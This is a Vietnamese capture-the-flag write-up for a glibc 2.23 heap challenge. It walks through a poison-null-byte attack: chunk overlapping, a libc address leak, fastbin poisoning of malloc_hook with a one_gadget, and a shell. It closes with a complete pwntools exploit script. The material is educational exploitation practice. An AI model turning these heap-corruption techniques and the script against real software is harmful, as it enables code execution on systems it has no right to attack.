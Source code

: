# Heap_Exploit - Heap4

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pwn5_null_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 3.2.0, BuildID[sha1]=9f1740b42bc97cb470a75e9386d7fb64867795d3, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'.'
```

Vì ở hàm deleteHeap() set giá trị null cho con trỏ đến heap 

-> Không thể Use-after-free, double-free.

![delete.png](images/delete.png)

Tiếp đến chạy thử chương trình:

![run.png](images/run.png)

Ở đây chúng ta có 5 options sử dụng heap, mà tên file là `pwn5_null` 

-> `Poison_Null_Byte`

# 2. Khai thác

- Bước 1: Tạo 4 chunk 

```
create(0,0x88,b"\x00")              #CHUNK0 dùng để overflow size chunk1
create(1,0x208,b"\x00")             #CHUNK1 chunk này có size có giá trị > 0xff để owverflow null byte vào byte cuối
create(2,0x88,b"\x00")              #CHUNK2 chunk ở đây là overlapping memory
create(3,0x12,b"\x00")              #CHUNK3 tránh chunk2 bị gộp với top_chunk khi ta giải phóng nó.
```

- Bước 2: Giải phóng chunk_1 và tạo thành 2 chunk bé bên trong chunk 1 để kiểm soát con trỏ trong unsortedbin

```
free(1)
edit(0,0x88,p8(0)*0x88)
```

Sau khi free(1) và overflow chunk_0 thì chunk_1 của chúng ta sẽ như sau:

![chunk1.png](images/chunk1.png)

Có thể thấy size chunk_1 đã bị biến đổi từ `0x211` -> `0x200`

Kế đến tạo 2 chunk với chunk size = `0x100`

```
create(1,0xf8,b"\x00"*8)#CHUNK1a
create(4,0xf8,b"\x00"*8)#CHUNK1b
```

![2chunk.png](images/2chunk.png)

Ok nhưng nhìn vào chunk_2 khi đó:

![chunk2.png](images/chunk2.png)

Size chunk_2 = 0x90 mà khi đó chunk_4 vừa tạo đã được sử dụng. 

Tiếp theo, ta free chunk_1 và chunk_2

```
free(1)
free(2)
```

Nhìn vào heap khi ấy:

![chunk.png](images/chunk.png)

Nếu chúng ta giải phóng chunk_1 và sau đó giải phóng chunk_2, malloc sẽ bị nhầm lẫn rằng chunk_4 không được sử dụng và nó sẽ kết hợp chunk_1 với chunk_2, trong đó có cả chunk_4.

Tuy nhiên, chunk_4 chưa được free() nên chúng ta có thể kiểm soát được nó. Đó là lý do vì sao chunk_1 có size = `0x2a1` là tổng của size chunk_1 = `0x210` và chunk_2 = `0x90`

Kế đến, tạo 1 chunk với size sao cho giảm giá trị của unsortedbin đi 0x100 và từ đó đẩy địa chỉ `main_arena+88` xuống chunk_4'data để leak được địa chỉ libc

```
create(1,0xf8,b"a"*0xf7)#CHUNK1a
show(4)
p.recvuntil(b"Data = ")
leak=int.from_bytes(p.recv(6),"little")
libc=leak-0x39bb78
print("Libc_base: ",hex(libc))
malloc_hook=libc+0x39bb10
print("Malloc_hook: ",hex(malloc_hook))
one_gadget=libc+0x3f42a
print("Og_hook: ",hex(one_gadget))
```

- Bước 3: Ghi đè one_gadget vào địa chỉ malloc_hook

Ở trước đó ta đã có size chunk_2 = `0x90` có nghĩa chunk trước không được sử dụng

=> lợi dụng điều này để ghi vào chunk_4

```
create(5,0x68,b"b"*0x67)
free(5)
```

Khi này ta sẽ có địa chỉ chunk_5 trong fast_bin

Và tại fastbin lúc này sẽ chỉ đến phần data của chunk_4 nên ta chỉ việc edit(4): 

```
edit(4,0x68,p64(malloc_hook-35))
```

![fastbin.png](images/fastbin.png)

Và thế là ta đã có 1 chuỗi dslk tại fastbin size `0x70` 

Tiếp đến chúng ta tạo 1 chunk rác và 1 chunk để sửa `malloc_hook-0x23`

```
create(5,0x68,b"\x00")
create(6,0x68,b"a"*19+p64(one_gadget))
```

Vì sao phải sử dụng `malloc_hook-35`?

Bời vì khi chúng ta đến bước tạo chunk_6, nó yêu cầu địa chỉ đầu trong fastbin khi ấy phải là 1 chunk hợp lệ có size là 0x7x 

![fake.png](images/fake.png)

Và chúng ta sẽ ghi đề b"a"*19 để phần còn lại ghi vào `malloc_hook`.

Oke vậy là `malloc_hook` đã chứa địa chỉ của `one_gadget`.

Kế đến chúng ta free  1 chunk để dẫn đến lỗi

```
free(4)
free(6)
```

Chunk_4 chứa địa chỉ `malloc_hook-0x23` và khi free nó đi rồi thì sẽ mất địa chỉ lưu trữ `b"a"*19+p64(one_gadget)` của chunk_6

=> khi free(6) sẽ bị lỗi và lấy được shell

![shell.png](images/shell.png)

# Full code:

```
from pwn import *

context.binary=exe=ELF("./pwn5_null_patched",checksec=False)

p=process(exe.path)

#gdb.attach(p,gdbscript='''''')

def create(idx,size,data):
    p.sendafter(b">\n",b"1")
    p.sendafter(b"Index:",str(idx))
    p.sendafter(b"Input size:",str(size))
    p.sendafter(b"Input data:",data)

def show(idx):
    p.sendafter(b">\n",b"2")
    p.sendafter(b"Index:",str(idx))

def edit(index,newsize,data):
    p.sendafter(b">\n",b"3")
    p.sendafter(b"Input index:",str(index))
    p.sendlineafter(b"Input newsize:",str(newsize))
    p.sendlineafter(b"Do you want to change data (y/n)?\n",b"y")
    p.sendlineafter(b"Input data:",data)

def free(idx):
    p.sendafter(b">\n",b"4")
    p.sendafter(b"Input index:",str(idx))
  
    
create(0,0x88,b"\x00")
create(1,0x208,b"\x00")
create(2,0x88,b"\x00")
create(3,0x12,b"\x00")

free(1)
edit(0,0x88,p8(0)*0x88)
create(1,0xf8,b"\x00"*8)
create(4,0xf8,b"\x00"*8)
free(1)
free(2)

create(1,0xf8,b"a"*0xf7)
show(4)
p.recvuntil(b"Data = ")
leak=int.from_bytes(p.recv(6),"little")
libc=leak-0x39bb78
print("Libc_base: ",hex(libc))
malloc_hook=libc+0x39bb10
print("Malloc_hook: ",hex(malloc_hook-35))
one_gadget=libc+0x3f42a
print("Og_hook: ",hex(one_gadget))

create(5,0x68,b"b"*0x67)
free(5)
edit(4,0x68,p64(malloc_hook-35))
create(5,0x68,b"B")
create(6,0x68,b"B"*19+p64(one_gadget))
free(4)
free(6)

p.interactive()
```


